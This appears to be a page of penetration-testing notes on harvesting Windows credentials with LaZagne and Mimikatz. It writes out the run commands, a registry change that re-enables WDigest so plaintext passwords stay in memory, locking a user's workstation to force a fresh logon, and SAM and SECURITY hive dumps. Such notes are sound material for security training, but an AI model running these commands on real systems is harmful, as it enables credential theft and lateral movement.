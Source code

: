 LaZagne's ability to retrieve stored credentials for Windows software is extensive and supports a large number of browsers including Chrome and Firefox, chat clients including Skype, databases, and mail clients including Outlook.\
The tool also supports credential retrieval for many sysadmin utilities like OpenVPN and OpenSSH, and password managers such as KeyPass, which could provide valuable credentials for moving to other hosts in a network.\
\
**Usage**

The Windows version comes with an executable (.exe) file that can be used as a standalone .exe; however, it is not able to detect some credentials such as Google Chrome passwords.\
Simply double clicking on the executable ‘Lazagne.exe' will cause a warning message which indicates that the executable is malicious.&#x20;

* To run the tool successfully, use the command prompt to execute LaZagne:
  * `> lazagne.exe`
  * &#x20;`# Run all modules`
    * `> lazagne.exe all`
  * `# Run the browser modules`
    * `lazagne.exe browsers`
* There is also a Python script in the Windows directory of the LaZagne repository that can run on systems with Python installed. There are a few requirements that may need to be installed first – check the requirements.txt file in the repository for more details.
  * `#python laZagne.py`
  * `# Run all modules`
    * `python laZagne.py all`
  * `# Run modules for Google Chrome. Add the -v flag for verbose output`
    * `python laZagne.py browsers -google -v`
{% endtab %}

{% tab title="Mimikatz" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md" %}

[Mimikatz](https://github.com/gentilkiwi/mimikatz) - Utility to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory but also perform pass-the-hash, pass-the-ticket or build Golden tickets

* [SafetyKatz](https://github.com/GhostPack/SafetyKatz) - SafetyKatz is a combination of slightly modified version of @gentilkiwi's Mimikatz project and @subTee's .NET PE Loader.
* [spraykatz](https://www.kali.org/tools/spraykatz/) - This package contains a tool without any pretention able to retrieve credentials on Windows machines and large Active Directory environments.
* Can be run im memory so you dont drop and executable on the target
* Commands - will give clear text pw of currently logged in users
  * \> C:\Tools\password\_attacks\mimikatz.exe
  * \# privilege::debug
  * \# token::elevate #elevate session to SYSTEM level
  * \# kerberos
  * \# wdigest
  * \# lsadump::sam #Dump SAM database
* Windows 10 issue - Mimikatz will pull a NULL value when pulling creds as they are no longer in LSASS
  * Set registry key to put the credentials back into LSASS
    * \> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
  * Empire Command version
    * \>shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
  * You will need the user to relog into the system for this to take affect. Force this by locking thier workstation.
    * rundll32.exe user32.dll,LockWorkStation
* Mimikatz NTLM hash of all users
  * \#reg save hklm\sam filename1.hiv
  * \#reg save hklm\security filename2.hiv
  * mimikatz#privilege::debug
  * mimikatz#token::elevate